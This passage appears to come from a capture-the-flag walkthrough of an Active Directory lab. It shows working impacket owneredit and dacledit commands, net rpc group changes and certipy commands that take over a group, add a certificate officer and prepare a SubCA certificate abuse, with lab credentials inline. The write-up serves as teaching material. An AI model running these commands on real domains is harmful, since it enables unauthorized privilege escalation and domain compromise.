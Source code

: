 ```bash
git clone --branch dacledit https://github.com/ShutdownRepo/impacket.git
```

<img src="https://i.imgur.com/kwHI5YH.png"/>

Also we can just copy owneredit.py https://github.com/ShutdownRepo/impacket/blob/owneredit/examples/owneredit.py

```bash
python3 ./owneredit.py -action write -target 'ca-managers' -new-owner 'Simon.Bowen' 'intercept.vl'/'Simon.Bowen':'b0OI_fHO859+Aw' -dc-ip 10.10.172.149
```

<img src="https://i.imgur.com/1BULwor.png"/>

Now giving full control over ca-mangers object

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'Simon.Bowen' -target 'ca-managers' 'intercept.vl'/'Simon.Bowen':'b0OI_fHO859+Aw' -dc-ip 10.10.172.149
```

<img src="https://i.imgur.com/kZZ2oVI.png"/>

Adding Simon into ca-managers group with `net rpc`

```bash
net rpc group addmem 'ca-managers' 'Simon.Bowen' -U intercept.vl/Simon.Bowen -S DC01.intercept.vl
```

<img src="https://i.imgur.com/TN432ri.png"/>

To verify if simon is in the ca-managers group, we can re run python bloodhound and see the data from there

<img src="https://i.imgur.com/vV6Rody.png"/>

Moving back to certipy, we're going to make Simon a `ca-office` which is basically granting  `manage certificates` rights to validate the failed request

```bash
certipy ca -ca 'INTERCEPT-DC01-CA' -add-officer 'Simon.Bowen' -u 'Simon.Bowen@intercept.vl' -p 'b0OI_fHO859+Aw' -dc-ip 10.10.172.149
```

<img src="https://i.imgur.com/MbcciuZ.png"/>

Now to list the certificate templates, to check if `SubCA` is enabled

```bash
certipy ca -u "Simon.Bowen@intercept.vl" -p "b0OI_fHO859+Aw" -dc-ip "10.10.172.149" -ca 'INTERCEPT-DC01-CA' -list-templates
```

<img src="https://i.imgur.com/vNab7Pm.png"/>
Requesting a certificate for administrator using SubCA template, it will be denied but still we'll be able to save the private key
